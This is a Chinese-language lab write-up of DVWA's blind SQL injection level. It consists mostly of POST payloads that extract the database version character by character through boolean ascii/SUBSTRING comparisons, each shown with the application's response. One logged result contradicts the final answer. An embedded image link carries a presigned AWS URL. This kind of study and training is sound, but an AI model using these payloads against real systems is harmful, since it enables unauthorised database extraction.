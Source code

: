# SQL Injection (Blind)

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 觀察
這關也是改用 POST
先透過上一關驗證一下 VERSION 語法

```sql
id=1 UNION select 1,VERSION(); &Submit=Submit
```
```sql
id=1 UNION SELECT 1,SUBSTRING((SELECT @@version),1,20); &Submit=Submit
```
```sql
SELECT 1,SUBSTRING((SELECT @@version),1,20);
```

```sql
SELECT SUBSTRING((SELECT @@version),1,20);
```

```sql
(SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%');
```

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,20)); &Submit=Submit
```

### 參考之前已經得知的版本

```jsx
10.1.26-MariaDB-0+de
```

false

```sql
1 AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%')
```

只能多嘗試，後來發現可能是單引號的問題，看起來是因為 POST data 的關係，payload 被視為字串，先換成 `=` 來測試

```sql
(SELECT SUBSTRING((SELECT @@version),1,1)) = 1
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,1)) = 1 &Submit=Submit
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 10 &Submit=Submit
```

false

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 12 &Submit=Submit
```

...

理論上應該是可以猜出 DB 的本版

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,3)) = 10.);&Submit=Submit
```

### 卡關 QQ

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

看提示說這關有使用 `mysql_real_escape_string()` ，會將 \x00, \n, \r, \, ', ", \x1a 跳脫

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

# Update - February 21, 2022

```sql
SELECT 1, (SELECT (version())) <> 0;
```

```sql
id=1 AND (SELECT version() <> 0); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = 5.7); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = '5.7.34'); &Submit=Submit
# User ID is MISSING in the database
```

也是無法完整猜測

### Done

因此參考別人的 writeup 後才知道可以用 `ascii` 將字串轉換成數字，這樣就可以不用擔心單引號被過濾了，基本上這邊只要能轉換成數字型態就可以了

```sql
SELECT SUBSTRING((SELECT @@version),1,6)
# 5.7.34
```

5

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53); &Submit=Submit
# User ID is MISSING in the database
```

SUBSTRING((SELECT @@version),2,1) 代表第2個字串的值

```sql
select SUBSTRING((SELECT @@version),2,1);
# .
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46); &Submit=Submit
# User ID exists in the database
```

7

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46); &Submit=Submit
# User ID exists in the database
```

3

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 46); &Submit=Submit
# User ID is MISSING in the database
```

4

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 52); &Submit=Submit
# User ID exists in the database
```

從上面嘗試的結果就可以推敲出版本

```
5.7.34
```

---
# Ref

- DVWA 通关指南：SQL Injection-Blind(SQL 盲注) - 乌漆WhiteMoon - 博客园
[https://www.cnblogs.com/linfangnan/p/13694057.html](https://www.cnblogs.com/linfangnan/p/13694057.html)

- SQL CAST and SQL CONVERT function overview
[https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/](https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/)
